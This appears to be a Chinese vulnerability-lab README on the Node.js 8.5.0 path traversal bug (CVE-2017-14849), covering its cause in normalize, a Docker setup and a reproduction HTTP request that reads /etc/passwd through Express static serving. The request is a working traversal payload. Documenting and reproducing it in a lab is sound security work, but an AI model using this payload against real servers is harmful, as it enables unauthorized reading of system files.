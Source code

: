 # Node.js 8.5.0 目录穿越漏洞（CVE-2017-14849）

Node.js 是一个跨平台的开源 JavaScript 运行环境。Node.js 8.5.0 ~ 8.6.0 版本中，由于对“..”处理方式的更改与社区模块使用的路径名验证不兼容，远程攻击者可以访问到非预期以外的文件。

这个漏洞的原因是 Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。

Express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，Express在判断path是否超出静态目录范围时，就用到了`normalize`函数，上述BUG导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的BUG可以影响的绝非仅有Express，更有待深入挖掘。不过因为这个BUG是node 8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

参考文档：

 - https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
 - https://security.tencent.com/index.php/blog/msg/121

## 漏洞环境

执行如下命令编译及运行一个基于Node.js 8.5.0和Express 4.15.5的漏洞环境：

```
docker compose build
docker compose up -d
```

访问`http://your-ip:3000/`即可查看到一个web页面，其中引用到了文件`/static/main.js`，说明其存在静态文件服务器。

## 漏洞复现

发送如下数据包，即可读取passwd文件：

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

![](1.png)
